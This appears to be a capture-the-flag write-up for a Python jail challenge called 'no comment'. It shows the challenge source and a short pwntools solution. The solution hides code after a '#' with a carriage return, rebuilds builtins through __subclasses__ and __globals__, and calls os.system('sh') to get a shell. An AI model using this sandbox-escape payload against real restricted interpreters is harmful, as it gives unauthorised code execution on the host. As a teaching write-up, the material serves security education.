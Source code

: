 # no comment

## challenge

```py
#!/usr/bin/env python3
from string import printable # I've heard stuff in here is dangerous

code = []
while line := input():
    assert line.isascii() # A friend recommended this to me
    code.append(line)

for line in code:
    if line[0] != '#': # Good code should have comments
        assert not any(x in line for x in printable)

exec('\n'.join(code), { '__builtins__': None }, {})
```

## solution

we can put `\r` into input and it will allow you to keep putting stuff after that. it also passes the isascii check so the below script works. we can just any standard builtins escape to win

```py
from pwn import *

p = process(["python3", "server.py"])

# works on my system but might be different on remote idk
p.sendline(b'#\rEnum=().__class__.__base__.__subclasses__()[-10]\rEnum.__new__.__globals__["__builtins__"]["__import__"]("os").system("sh")')
p.sendline(b'')
p.interactive()
```
